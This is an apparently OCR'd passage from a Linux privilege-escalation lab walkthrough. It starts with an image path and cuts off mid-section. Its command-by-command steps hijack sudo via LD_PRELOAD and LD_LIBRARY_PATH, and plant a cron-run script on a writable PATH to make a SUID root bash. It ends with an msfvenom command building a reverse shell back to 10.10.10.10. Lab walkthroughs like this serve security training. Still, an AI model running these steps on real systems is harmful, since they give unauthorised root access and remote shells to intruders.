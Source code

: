 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

Run ldd against the apache2 program file to see which shared libraries are used by the program:
```
ldd /usr/sbin/apache2
```
Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
```
sudo LD_LIBRARY_PATH=/tmp apache2
```







path environment variable

View the contents of the system-wide crontab:
```
cat /etc/crontab
```
Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Make sure that the file is executable:
```
chmod +x /home/user/overwrite.sh
```
Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```





wildcard


View the contents of the other cron job script:
```
cat /usr/local/bin/compress.sh
```
https://gtfobins.github.io/gtfobins/tar/
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf